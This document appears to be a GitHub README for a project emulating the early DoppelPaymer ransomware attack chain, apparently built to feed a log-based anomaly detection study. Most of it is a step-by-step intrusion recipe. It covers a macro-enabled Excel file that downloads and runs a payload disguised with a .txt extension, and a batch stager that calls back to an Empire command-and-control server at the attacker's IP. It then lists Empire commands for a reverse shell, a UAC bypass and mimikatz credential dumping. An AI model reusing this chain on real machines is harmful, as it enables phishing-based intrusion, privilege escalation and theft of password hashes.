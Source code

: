 # Attack Emulation of the Fore Part of Doppelpaymer Attack Chain
## Second Part of this Project
* https://github.com/chieh0613/Log-based-Anomaly-Detection-and-Tracing-back-to-Phishing-Emails

## Introduction
   An APT attack consists of various tactics, including initial access, credential access, and command and control.
   DoppelPaymer is a ransomware that have launched their attacks since 2019, threatening victims after stealing their files.
   We try to reproduce the attack scenario based on the fore part of Doppelpaymer attack chain.

## Victim's OS and requiremnts
* Edition: Windows 10 Home
* Version: 2004
* Microsoft Office
* 7-zip/WinRAR
* Windows Defender disabled

## Attacker's OS and requirements
* Kali Linux
* Empire


## Unzip
   In the folder unzip, we try to generate an executable file "unzip.exe" to extract file from "launcher.zip" with the password "123".
* Type "python run.py" to generate the file "unzip.exe".
* Requirements:
  * python==3.8.8
  * pyinstaller==4.3 

## Unzip.txt
   Because we cannot download the executable file directly, we change the file extension from .exe to .txt.
   After the modication, we can use macro to download the file directly by a given link.

## launcher.zip
   Contains the file "launcher.bat" with the password "123". 
   After executing the file "launcher.bat", the victim will connect to the empire server.

## project.xlsm
   It is a macro enabled excel document.
   The followings are what it will do:
   * Download the file "launcher.zip" to %temp% folder
   * Download the file "unzip.exe" to %temp% folder
   * Execute the file "unzip.exe" to get the file "launcher.bat"
   * Execute the file "launcher.bat" to connect to the empire server

## project.zip
   Contains project.xlsm with password '123'. 

## Empire Commands
* Generate the file "launcher.bat" to let the victim connect to the empire server:
    1. Use "uselistener http" to generate listener
      * set Name http
      * set Host 192.168.2.30 (attacker's ip)
      * set Port 8080
      * execute
    2. Use "usestager windows/launcher_bat" to generate the file "launcher.bat"
      * set Listener http
      * execute

* After the victim connects to the empire server, run the following commands:
    1. type "agents" to find the value of victim's Name (<victim_Name>)
    2. type "interact <victim_Name>"
    3. Reverse shell
      * shell tasklist
      * shell netstat
      * shell ipconfig
    4. Use "usemodule privesec/bypassuac" to get administrator privilege
      * set Listener http
      * execute
    5. Use "usemodule credentials/mimikatz/logonpasswords*" to get the victim's NTLM hash
      * execute

# Reference
* https://github.com/mishmashclone/BC-SECURITY-Empire
* https://null-byte.wonderhowto.com/how-to/use-powershell-empire-getting-started-with-post-exploitation-windows-hosts-0178664/
* https://ethicalhackingguru.com/how-to-use-powershell-empire-3-the-powershell-empire-3-tutorial/
* https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf
* https://stackoverflow.com/questions/6934169/how-to-show-current-user-name-in-a-cell
* https://vblocalhost.com/uploads/VB2020-61.pdf
* https://github.com/DarkSecDevelopers/shellpy.git

